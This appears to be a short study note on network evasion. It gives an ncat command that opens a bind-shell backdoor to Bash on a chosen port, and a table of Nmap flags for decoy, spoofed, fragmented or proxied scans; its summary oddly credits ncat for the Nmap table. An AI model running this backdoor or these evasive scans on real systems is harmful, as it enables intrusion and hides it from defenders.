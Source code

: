 ## **Evasion Using Non-Standard Ports**
`ncat -lvnp PORT_NUMBER -e /bin/bash` will create a backdoor via the specified port number that lets you interact with the Bash shell.

- `-e` or `--exec` executes the given command
- `/bin/bash` location of the command we want to execute

Considering the case that we have a firewall, it is not enough to use `ncat` to create a backdoor unless we can connect to the listening port number. Moreover, unless we run `ncat` as a privileged user, `root`, or using `sudo`, we cannot use port numbers below 1024.

## **Summary**
Different evasion techniques using `ncat`; however, the same results can be achieved using a different tool, such as `socat`.

| Evasion Approach                           | Nmap Argument                             |
| ------------------------------------------ | ----------------------------------------- |
| Hide a scan with decoys                    | `-D DECOY1_IP1,DECOY_IP2,ME`              |
| Use an HTTP/SOCKS4 proxy                   | `--proxies PROXY_URL`                     |
| Spoof source MAC address                   | `--spoof-mac MAC_ADDRESS`                 |
| Spoof source IP address                    | `-S IP_ADDRESS`                           |
| Use a specific source port number          | `-g PORT_NUM` or `--source-port PORT_NUM` |
| Fragment IP data into 8 bytes              | `-f`                                      |
| Fragment IP data into 16 bytes             | `-ff`                                     |
| Fragment packets with given MTU            | `--mtu VALUE`                             |
| Specify packet length                      | `--data-length NUM`                       |
| Set IP time-to-live field                  | `--ttl VALUE`                             |
| Send packets with specified IP options     | `--ip-options OPTIONS`                    |
| Send packets with a wrong TCP/UDP checksum | `--badsum`                                |